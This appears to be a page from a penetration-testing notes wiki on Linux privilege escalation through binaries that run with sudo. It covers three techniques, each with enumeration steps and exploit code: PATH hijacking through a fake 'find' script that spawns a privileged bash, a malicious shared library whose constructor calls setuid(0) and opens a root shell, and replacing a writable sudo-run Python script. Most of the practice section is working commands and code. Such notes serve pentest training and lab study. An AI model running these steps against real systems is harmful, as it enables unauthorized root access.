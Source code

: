 # Sudo Binaries

## Theory

Sudo is a widely used tools that allows regular users to execute commands with elevated privileges on Linux. Privileges escalation can occur if the binaries that you can run with sudo is not properly setup

## Practice

### Known Sudo Binaries Exploits

{% tabs %}
{% tab title="GTFOBins" %}
If you find that a binary have the Sudo bits, you can check on [GTFOBins](https://gtfobins.github.io/) for known Sudo exploits.
{% endtab %}
{% endtabs %}

### No Command Path Exploit

{% tabs %}
{% tab title="Enumerate" %}
If a **Sudo** binary executes another command **without specifying the path.** We can abuse it and get a privilege escalation.

You may use `strings` to spot other binaries calls, or do some reverse engineering on the **Sudo** binary.

```bash
strings ./the-sudo-bin

...
find
...
```
{% endtab %}

{% tab title="Exploit" %}
We can create a malicious executable with the same name as the one called by the **Sudo** binary.

```bash
echo '/bin/bash -p' > /tmp/find
chmod +x /tmp/find
```

\
Then, set the **PATH** env variable before executing the Sudo binary.

```bash
#Sudo with modified PATH
export PATH=/tmp:$PATH 
./the-sudo-bin
```
{% endtab %}
{% endtabs %}

### Shared Library Hijacking

{% tabs %}
{% tab title="Enumerate" %}
If you find some binary with **Sudo** permissions, you could check if all the **.so** files are **loaded correctly**

```bash
strace the-sudo-bin 2>&1 | grep -i -E "open|access|no such file"
```

You also could check if the **Sudo** binary is loading a library from a folder **where we can write**:

```bash
# Lets find a Sudo using a non-standard library
ldd the-sudo-bin
something.so => /lib/x86_64-linux-gnu/something.so

# The Sudo also loads libraries from a custom location where we can write
readelf -d the-sudo-bin | grep PATH
0x000000000000001d (RUNPATH)            Library runpath: [/development]
```

Alternatively, you could use the `strings` command to find used shared library

```bash
strings ./the-sudo-bin | grep -i '*.so*'
```
{% endtab %}

{% tab title="Exploit" %}
For example, if you find that the **Sudo** binary **doesn't** **load correctly** _`/home/user/.config/libcalc.so`_ or that you can overwrite it, you can exploit it.

Write a malicious shared library

```c
//Saved to /home/user/.config/libcalc.c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        printf("Hello from the bad library");
        //setreSudo(0,0,0);
        setuid(0);
        setgid(0);
        system("/bin/bash -p");
}
```

Compile it

```bash
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
```

Execute the Sudo binary

```bash
sudo ./the-sudo-bin
```

{% hint style="info" %}
If you get an error such as

```shell-session
./Sudo_bin: symbol lookup error: ./Sudo_bin: undefined symbol: a_function_name
```

that means that the library you have generated need to have a function called `a_function_name`.
{% endhint %}
{% endtab %}
{% endtabs %}

### Weak File Permissions

{% tabs %}
{% tab title="Enumerate" %}
If you find some binary/script with **Sudo** permissions, you could check if you have enought rights to overwrite it. If so, you can replace it by a malicious one.

```bash
sudo -l

        (root) NOPASSWD: /usr/bin/python3 /home/<username>/example.py
```

Check permissions:

```bash
ls -la /home/<username>/
ls -la /home/<username>/example.py
```
{% endtab %}

{% tab title="Exploit" %}
If the python script is **under a directory that you own**, or if you have **direct write access** on it. We can remove the script and create a new one with the same name.

```bash
rm -rf /home/<username>/example.py
touch /home/<username>/example.py
```

We can insert arbitrary code in the new script. For example,

```python
import os;os.system('/bin/bash')
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#sudo" %}

{% embed url="https://tryhackme.com/room/linuxprivescarena" %}

{% embed url="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/" %}
